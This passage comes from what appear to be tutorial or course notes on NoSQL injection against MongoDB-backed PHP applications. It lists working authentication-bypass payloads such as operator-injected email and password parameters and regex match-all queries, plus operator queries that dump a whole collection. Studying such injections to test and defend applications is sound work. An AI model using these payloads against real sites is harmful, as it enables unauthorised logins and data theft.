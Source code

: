 ```bash
    email: {$ne: "test@test.com"},
    password: {$ne: "test"}
});
```

> [!NOTE]
> Since email and password are being passed as URL-encoded parameters, we can't just pass JSON objects; we need to change the syntax slightly. 
> When passing URL-encoded parameters to PHP, `param[$op]=val` is the same as `param: {$op: val}` so we will try to bypass authentication with `email[$ne]=test@test.com` and `password[$ne]=test`

- Another way would be to use the `$regex` query parameter on both fields to match `.*`, which means any character repeated 0 or more times and therefore matches everything.

```bash
db.users.find({
    email: {$regex: /.*/},
    password: {$regex: /.*/}
});
```

- Some other payloads that would work are:

    - `email=admin%40mangomail.com&password[$ne]=x`: This assumes we know the admin's email and we wanted to target them directly
    - `email[$gt]=&password[$gt]=`: Any string is 'greater than' an empty string
    - `email[$gte]=&password[$gte]=`: Same logic as above

## In-Band Data Extraction
- In traditional SQL databases, in-band data extraction vulnerabilities can often lead to the entire database being exfiltrated. 
- In MongoDB, however, since it is a non-relational database and queries are performed on specific collections, attacks are (usually) limited to the collection the injection applies to.

- On the server side, the request being made will likely query the database to find documents that have a name matching `$_GET['q']`, like this:
```bash
db.types.find({
    name: $_GET['q']
});
```
- We want to list out information for all types in the collection, and assuming our assumption of how the back-end handles our input is correct, we can use a RegEx query that will match everything like this:
```bash
db.types.find({
    name: {$regex: /.*/}
});
```
### Alternative Queries
- `name: {$ne: 'doesntExist'}`: Assuming doesntExist doesn't match any documents' names, this will match all documents.
- `name: {$gt: ''}`: This matches all documents whose name is 'bigger' than an empty string.
- `name: {$gte: ''}`: This matches all documents whose name is 'bigger or equal to' an empty string.
- `name: {$lt: '~'}`: This compares the first character of name to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the largest printable ASCII value, and we know that all names in the collection are composed of ASCII characters.
- `name: {$lte: '~'}`: Same logic as above, except it additionally matches documents whose names start with `~`.